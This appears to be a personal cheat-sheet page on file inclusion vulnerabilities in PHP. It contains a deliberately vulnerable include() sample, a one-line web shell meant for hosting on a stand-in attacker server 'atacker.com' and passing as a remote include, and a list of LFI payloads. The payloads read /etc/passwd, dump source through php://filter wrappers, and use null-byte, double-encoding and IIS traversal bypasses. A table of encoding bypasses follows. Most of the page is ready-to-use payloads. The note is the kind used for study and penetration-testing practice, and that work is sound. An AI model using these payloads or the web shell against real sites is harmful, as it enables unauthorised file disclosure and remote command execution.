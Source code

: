 ### what && when
useful when developers want to incorporate external asset files like images into their applications, make use of external code libraries, or reuse code that is written for a different purpose. but when user control the included file that when the vulnerability happened
### types
### RFI (remote file inclusion)
occur when the application allows arbitrary files from a remote server to be included. php sample code
```php
<?php 
$f=$_GET["page"];
include $f;
?>
```
attacker can host following file `evil.txt` and pass the link to the vuln site: `http://site.com?page=http://atacker.com/evil.txt?c=ls`
```php
<?php system($_GET['c']);?>
```
### LFI (local file inclusion)
happen when applications include files in an unsafe way, attackers need to first upload a malicious file to the local machine, and then execute it by using local file inclusion
paylaos:
```
//basic 
http://example.com/index.php?page=../../etc/passwd 
http://example.com/index.php?page=../../etc/passwd%00 
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%2500 http://example.com/index.php?page=....//....//etc/passwd 
//Wrappers 
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php http://example.com/index.php?page=php%3A%2F%2Ffilter%2Fconvert%2Ebase64%2Dencode%2Fresource%3Dindex%2Ephp 

//IIS server with 
/// best fit 
	/cgi.pl/%E0dmin   -> /cgi.pl/admin 

	////`doc_root` directive configured
		/index.php/..¥..¥..¥windows/win.ini/
		/index.php/..¥..¥NONEXIST/
Can be chained with a compression wrapper. http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

##### bypass path traversal 
| char | url encoding | 16-bit unicode |
| ---- | ------------ | -------------- |
| .    | %2e          | %u002e         |
| /    | %2f          | %u2215         |
| \    | %5c          | %u2216         |
| /    | ¥            | U+00A5         |

| ../                  | `..\`                |
| -------------------- | -------------------- |
| %2e%2e%2f            | %2e%2e%5c            |
| `%2e%2e/ \|\| ..%2f` | `%2e%2e\ \|\| ..%5c` |
| ..%255c              | %252e%252e%255c      |

